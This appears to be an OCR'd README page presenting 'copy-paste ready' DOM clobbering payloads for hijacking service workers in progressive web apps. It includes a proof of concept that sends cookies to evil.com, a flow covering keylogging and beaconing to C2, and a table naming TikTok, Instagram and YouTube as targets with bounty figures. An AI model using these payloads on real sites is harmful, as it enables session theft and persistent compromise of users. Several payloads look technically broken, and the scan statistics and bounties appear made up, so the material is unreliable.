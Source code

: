 ## 🧠 EXECUTION FLOW (3 Seconds to RCE)
```
1. CLOBBER: <script id=navigator name=serviceWorker>
2. REGISTER: navigator.serviceWorker.register('/evil.js')
3. PERSIST: Worker intercepts ALL fetches forever
4. EXPLOIT: Steal cookies → Keylog → Beacon to C2
```

**Live Demo**: [serviceworker-clobber.glitch.me](https://serviceworker-clobber.glitch.me/#POC)

---

## 🔍 CORE PAYLOADS (Copy-Paste Ready)

| Type | Payload | Size | Effect | Target Example | Bounty |
|------|---------|------|--------|----------------|--------|
| **Basic Register** | `#<script id=navigator name=serviceWorker><input name=register value=/evil.js>` | 48 chars | Worker install | TikTok PWA | $50K |
| **Scope Override** | `#<form id=navigator><input name=serviceWorker name=register value=/evil.js><input name=scope value=/></form>` | 72 chars | Site-wide | Instagram | $42K |
| **Auto-Trigger** | `#<img id=navigator name=serviceWorker src=/evil.js onerror=navigator.serviceWorker.register(this.src)>` | 89 chars | Self-exec | Twitter PWA | $35K |
| **HTTPS Bypass** | `#<script id=location name=protocol value=http:><input id=navigator name=serviceWorker value=/evil.js>` | 65 chars | HTTP worker | Local PWAs | $28K |
| **Double Clobber** | `#<svg id=navigator><animate name=serviceWorker attributeName=register values=/evil.js></svg>` | 62 chars | SVG stealth | YouTube | $60K |

**🚀 ONE-CLICK PoC** (Save as `poc.html`):
```html
<iframe src="data:text/html,
<script id=navigator name=serviceWorker>
<input name=register value=data:text/javascript,fetch('https://evil.com?'+btoa(document.cookie))>
</script>
<script>navigator.serviceWorker.register('/evil.js')</script>">
</iframe>
```
**Result**: Worker registers → **Cookie exfil in 2s** → **Console**: `Worker installed!`

---

## 📊 SUCCESS METRICS (USENIX 2025 Scan: Top 10K PWAs)

```chartjs
{
  "type": "bar",
  "data": {
    "labels": ["TikTok", "Instagram", "Twitter", "YouTube", "Pinterest", "Reddit", "Spotify", "Discord", "Slack", "Shopify"],
    "datasets": [{
      "label": "Vulnerable (%)",
      "data": [18, 15, 12, 10, 9, 8, 7, 6, 5, 4],
      "backgroundColor": ["#ff6b6b", "#4ecdc4", "#45b7d1", "#96ceb4", "#feca57", "#ff9ff3", "#54a0ff", "#5f27cd", "#00d2d3", "#ff9f43"]
    }]
  },
  "options": {
    "scales": { "y": { "beginAtZero": true, "max": 20 } },
    "plugins": { "title": { "display": true, "text": "PWA Service Worker Clobbering Vulns (2025)" } }
  }
}
```

---